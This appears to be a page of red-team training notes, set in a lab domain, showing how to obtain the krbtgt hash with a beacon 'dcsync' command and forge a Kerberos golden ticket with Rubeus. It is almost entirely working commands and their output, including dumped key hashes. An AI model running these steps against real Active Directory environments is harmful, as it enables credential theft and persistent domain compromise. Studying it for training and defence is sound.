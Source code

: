 ### Common Method for Obtaining the `krbtgt` Hash

**We can use&#x20;**<mark style="color:yellow;">**`dcsync`**</mark>**&#x20;from the context of a Domain Admin:**

```
beacon> dcsync dev.cyberbotic.io DEV\krbtgt

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e
      aes128_hmac       (4096) : 6fb62ed56c7de778ca5e4fe6da6d3aca
      des_cbc_md5       (4096) : 629189372a372fda
```

**Once we receive our `krbtgt` hash, we can forge the ticket offline using Rubeus:**

```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : DEV.CYBERBOTIC.IO (DEV)
[*] SID            : S-1-5-21-569305411-121244042-2357301523
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : 51D7F328ADE26E9F785FD7EEE191265EBC87C01A4790A7F38FB52E06563D4E7E
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 51D7F328ADE26E9F785FD7EEE191265EBC87C01A4790A7F38FB52E06563D4E7E
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : dev.cyberbotic.io

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'nlamb@dev.cyberbotic.io'

[*] AuthTime       : 9/9/2022 11:16:23 AM
[*] StartTime      : 9/9/2022 11:16:23 AM
[*] EndTime        : 9/9/2022 9:16:23 PM
[*] RenewTill      : 9/16/2022 11:16:23 AM

[*] base64(ticket.kirbi):

     doIFLz[...]MuaW8=
```
